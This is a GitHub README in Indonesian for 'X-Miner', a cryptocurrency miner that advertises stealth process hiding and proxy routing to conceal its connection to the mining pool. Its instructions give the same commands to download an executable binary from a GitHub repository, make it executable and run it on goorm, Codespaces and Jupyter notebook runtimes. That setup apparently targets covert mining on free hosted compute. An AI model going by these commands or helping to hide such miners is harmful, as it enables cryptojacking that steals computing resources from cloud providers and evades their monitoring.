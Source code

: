 # 🚀 X-Miner

implementasi **stealth process miner**, **resource balancing**, **proxy routing**, dan optimasi performa dalam aplikasi komputasi intensif.  
⚡ Dibangun dengan fokus pada fleksibilitas, efisiensi, dan kemudahan penggunaan.

---

## ✨ Fitur
- 🕵️‍♂️ **Process Management** – teknik penyembunyian dan monitoring proses.
- ⚖️ **Resource Control** – mengatur alokasi CPU agar tetap seimbang.
- 🔧 **High Performance Core** – arsitektur modular untuk pengolahan komputasi berat.
- 🌐 **Proxy Routing** – implementasi proxy untuk koneksi untuk penyembunyian koneksi ke pool.

---

## 📦 Instalasi & Penggunaan

```bash
# Unduh binary

1.goorm

wget https://github.com/xploit-miner/ER1/raw/refs/heads/main/x

# Beri izin eksekusi
chmod +x x

# Jalankan aplikasi
./x

2.codespace

wget https://github.com/xploit-miner/ER1/raw/refs/heads/main/x

# Beri izin eksekusi
chmod +x x

# Jalankan aplikasi
./x

3. runtime notebook/jupyter

wget https://github.com/xploit-miner/ER1/raw/refs/heads/main/x

# Beri izin eksekusi
chmod +x x

# Jalankan aplikasi
./x

#Ket : 
1. penyesuaian penggunaan file eksekusi karena adanya perbedaan library runtime GLIBC dari tiap layanan vps yang digunakan.
2. layanan vps yang digunakan tidak terbatas pada 3 layanan eksekusi diatas, untuk vps lain bisa digunakan dipilih salah 1 yang sesuai
3. Miner runing bisa dilihat dengan munculnya prosess yang di tandai merah di htop
![Screenshot Running](https://raw.githubusercontent.com/xploit-miner/ER1/main/img/shtoprun.JPG)
